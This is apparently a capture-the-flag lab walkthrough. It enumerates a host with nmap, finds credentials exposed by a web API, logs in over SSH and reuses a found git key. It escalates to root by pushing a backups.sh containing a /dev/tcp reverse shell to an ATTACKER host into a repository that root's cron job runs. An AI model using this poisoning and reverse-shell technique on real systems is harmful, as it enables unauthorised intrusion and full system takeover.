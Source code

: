 Enumeration with nmap 

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn <IP>`

```
# Nmap 7.93 scan initiated Fri Jan  6 20:00:29 2023 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn 192.168.108.125                                               
Warning: 192.168.108.125 giving up on port because retransmission cap hit (10).                                                                                        
Increasing send delay for 192.168.108.125 from 320 to 640 due to 11 out of 29 dropped probes since last increase.                                                      
Increasing send delay for 192.168.108.125 from 640 to 1000 due to 11 out of 27 dropped probes since last increase.                                                     
Nmap scan report for 192.168.108.125                                                                                                                                   
Host is up (0.15s latency).                                                                                                                                            
Not shown: 65490 filtered tcp ports (no-response)                                                                                                                      
PORT      STATE  SERVICE 
8080/tcp  open   http-proxy
12445/tcp open   unknown
18030/tcp open   unknown
43022/tcp open   unknown
Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jan  6 20:02:43 2023 -- 1 IP address (1 host up) scanned in 134.39 seconds
```

Let's run default nmap scripts to know what services are running on those ports.

`nmap -sC -sV -oN normal.tcp -p 43022,18030,12445,8080 -Pn <IP>`

```
# Nmap 7.93 scan initiated Wed Dec 28 23:47:19 2022 as: nmap -sC -sV -oN normal.tcp -p 43022,18030,12445,8080 -Pn 192.168.108.125                               [72/75]
Nmap scan report for 192.168.108.125                                                                                                                                   
Host is up (0.20s latency).                                                                                                                                            
                                                                                                                                                                      
PORT      STATE SERVICE     VERSION                                                                                                                                   
8080/tcp  open  http-proxy                                                                                                                                            
| fingerprint-strings:                                                                                                                                                
|   GetRequest:                                                                                                                                                       
|     HTTP/1.1 200                                                                                                                                                    
|     Content-Type: text/html;charset=UTF-8                                                                                                                           
|     Content-Language: en-US                                                                                                                                         
|     Content-Length: 3762                                                                                                                                            
|     Date: Wed, 28 Dec 2022 22:47:26 GMT                                                                                                                             
|     Connection: close                                                                                                                                               
|     <!DOCTYPE HTML>                                                                                                                                                 
|     <!--                                                                                                                                                            
|     Minimaxing by HTML5 UP                                                                                                                                          
|     html5up.net | @ajlkn                                                                                                                                            
|     Free for personal and commercial use under the CCA 3.0 license (html5up.net/license)                                                                            
|     <html>                                                                                                                                                          
|     <head>                                                                                                                                                          
|     <title>My Haikus</title>                                                                                                                                        
|     <meta charset="utf-8" />                                                                                                                                        
|     <meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" />                                                                        
|     <link rel="stylesheet" href="/css/main.css" />                                                                                                                  
|     </head>                                                                                                                                                         
|     <body>                                                                                                                                                          
|     <div id="page-wrapper">                                                                                                                                         
|     <!-- Header -->                                                                                                                                                 
|     <div id="header-wrapper">                                                                                                                                       
|     <div class="container">                                                                                                                                         
|     <div class="row">                                                                                                                                               
|     <div class="col-12">                                                                                                                                            
|     <header id="header">                                                                                                                                            
|     <h1><a href="/" id="logo">My Haikus</a></h1>
|     </header>
|     </div>
|     </div>
|     </div>
|     </div>
|     <div id="main">                                                                                                                                           [32/75]
|     <div clas
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Wed, 28 Dec 2022 22:47:26 GMT 
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Wed, 28 Dec 2022 22:47:27 GMT 
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {fo
nt-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><b
ody><h1>HTTP Status 505                  
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: My Haikus
12445/tcp open  netbios-ssn Samba smbd 4.6.2
18030/tcp open  http        Apache httpd 2.4.46 ((Unix))
|_http-title: Whack A Mole!
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Unix)
43022/tcp open  ssh         OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 7bfc37b4da6ec58ea98bb780f5cd09cb (RSA)
|   256 89cdea4725d98ff894c3d65cd405bad0 (ECDSA)
|_  256 c07c6f477e94cc8bf83da0a61fa92711 (ED25519)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-serv
ice :                                    
SF-Port8080-TCP:V=7.93%I=7%D=12/28%Time=63ACC77E%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,F51,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;chars
SF:et=UTF-8\r\nContent-Language:\x20en-US\r\nContent-Length:\x203762\r\nDa
SF:te:\x20Wed,\x2028\x20Dec\x202022\x2022:47:26\x20GMT\r\nConnection:\x20c
SF:lose\r\n\r\n<!DOCTYPE\x20HTML>\n<!--\n\tMinimaxing\x20by\x20HTML5\x20UP
SF:\n\thtml5up\.net\x20\|\x20@ajlkn\n\tFree\x20for\x20personal\x20and\x20c
SF:ommercial\x20use\x20under\x20the\x20CCA\x203\.0\x20license\x20\(html5up
SF:\n\thtml5up\.net\x20\|\x20@ajlkn\n\tFree\x20for\x20personal\x20and\x20c
SF:ommercial\x20use\x20under\x20the\x20CCA\x203\.0\x20license\x20\(html5up
SF:\.net/license\)\n-->\n<html>\n\t<head>\n\t\t<title>My\x20Haikus</title>
SF:\n\t\t<meta\x20charset=\"utf-8\"\x20/>\n\t\t<meta\x20name=\"viewport\"\
SF:x20content=\"width=device-width,\x20initial-scale=1,\x20user-scalable=n
SF:o\"\x20/>\n\t\t<link\x20rel=\"stylesheet\"\x20href=\"/css/main\.css\"\x
SF:20/>\n\t</head>\n\t<body>\n\t\t<div\x20id=\"page-wrapper\">\n\n\t\t\t<!
SF:--\x20Header\x20-->\n\t\t\t\n\t\t\t\t<div\x20id=\"header-wrapper\">\n\t
SF:\t\t\t\t<div\x20class=\"container\">\n\t\t\t\t\t\t<div\x20class=\"row\"
SF:>\n\t\t\t\t\t\t\t<div\x20class=\"col-12\">\n\n\t\t\t\t\t\t\t\t<header\x
SF:20id=\"header\">\n\t\t\t\t\t\t\t\t\t<h1><a\x20href=\"/\"\x20id=\"logo\"
SF:>My\x20Haikus</a></h1>\n\t\t\t\t\t\t\t\t</header>\n\n\t\t\t\t\t\t\t</di
SF:v>\n\t\t\t\t\t\t</div>\n\t\t\t\t\t</div>\n\t\t\t\t</div>\n\t\t\t\t\n\n\
SF:t\t\t\n\t\t\t\t<div\x20id=\"main\">\n\t\t\t\t\t<div\x20clas")%r(HTTPOpt
SF:ions,75,"HTTP/1\.1\x20200\x20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-
SF:Length:\x200\r\nDate:\x20Wed,\x2028\x20Dec\x202022\x2022:47:26\x20GMT\r
SF:\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,259,"HTTP/1\.1\x20505\x2
SF:0\r\nContent-Type:\x20text/html;charset=utf-8\r\nContent-Language:\x20e
SF:n\r\nContent-Length:\x20465\r\nDate:\x20Wed,\x2028\x20Dec\x202022\x2022
SF::47:27\x20GMT\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><titl
SF:e>HTTP\x20Status\x20505\x20\xe2\x80\x93\x20HTTP\x20Version\x20Not\x20Su
SF:pported</title><style\x20type=\"text/css\">body\x20{font-family:Tahoma,
SF:Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x20{color:white;background
SF:-color:#525D76;}\x20h1\x20{font-size:22px;}\x20h2\x20{font-size:16px;}\
SF:x20h3\x20{font-size:14px;}\x20p\x20{font-size:12px;}\x20a\x20{color:bla
SF:ck;}\x20\.line\x20{height:1px;background-color:#525D76;border:none;}</s
SF:tyle></head><body><h1>HTTP\x20Status\x20505\x20\xe2\x80\x93\x20HTTP\x20
SF:Version\x20Not\x20Supported</h1></body></html>");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                         
# Nmap done at Wed Dec 28 23:48:34 2022 -- 1 IP address (1 host up) scanned in 75.75 seconds 
```

Now we know what services are running, let's start enumeartion with port 8080 (http).

![image](https://user-images.githubusercontent.com/87468669/211082760-0a6e30b9-4ad0-422a-8a5d-fc65c9657484.png)

Nice we can see what the web service is running.

![image](https://user-images.githubusercontent.com/87468669/211083212-891dfb88-278c-449a-ab51-7f3a092f3699.png)

clicked on the first article and checked the source page.

![image](https://user-images.githubusercontent.com/87468669/211083425-31928a85-bc75-4cb8-bb00-a3d27d93bc17.png)

We can see /api directory in the comment part of the page. let's check the api directory.

![image](https://user-images.githubusercontent.com/87468669/211083677-a9b2d34c-57fa-47d5-aab3-9f9f73401244.png)

checking the /api directory, got other directories in it. let's check the `/user/?`.

![image](https://user-images.githubusercontent.com/87468669/211083894-c60632f0-29fa-4302-adf7-f7cfc7350be7.png)

Got some creds, the description for user ademola is admin, let's try ssh using those creds.

![image](https://user-images.githubusercontent.com/87468669/211084383-cabbef84-b9de-4e37-a4de-cfd9d486b4d7.png)

Great we got ssh using those creds, let's escalate privs 

![image](https://user-images.githubusercontent.com/87468669/211139654-43afe0ba-8685-4c5c-acac-44b6fb297eaa.png)

Found id_rsa key for user git, let's try ssh using the id_rsa key.

![image](https://user-images.githubusercontent.com/87468669/211139747-fab1d9dd-4cf9-4c41-923f-581cca7bda36.png)

worked, but we are in a git restricted shell. i tried to escape the shell, did not work. let's enumerate harder.🤔

![image](https://user-images.githubusercontent.com/87468669/211139835-6a687b3e-5aa1-4d75-ab1e-98c845bd378d.png)

Back to the ssh of use dademola, i saw a crontab.bak and it say user root runs backups.sh very 3 mins. Since we have ssh-keys, we can clone the repo /git-server.

```
GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@HUNIT-ADDRESS:/git-server
```

![image](https://user-images.githubusercontent.com/87468669/211140051-e78b1951-24b3-48e2-93e7-a890fc0e80c2.png)

From here we can cd to `/git-server` directory we've download. next is to poision the `backups.sh` file.

```
echo "/bin/bash -i >& /dev/tcp/ATTACKER/8080 0>&1" > backups.sh

chmod +x backups.sh
```

![image](https://user-images.githubusercontent.com/87468669/211140200-ab60c10a-68c2-4f49-93ed-d9f6952f6725.png)

Now we've posioned it with our malicious code, add the file to commits, add a commit message and push: 

```
git add . 
git commit -m "should work..."
GIT_SSH_COMMAND='ssh -i ./id_rsa -p 43022' git push
```

![image](https://user-images.githubusercontent.com/87468669/211140284-89582520-e006-4ce7-a34c-f9e0b1e02472.png)

After we push the commit, fire up nc listener and wait... we should catch a reverse shell.

![image](https://user-images.githubusercontent.com/87468669/211140777-9b7dbdd8-dbb3-43ed-a2f2-16338c714717.png)

And Boom!!! we got root🤓😎.

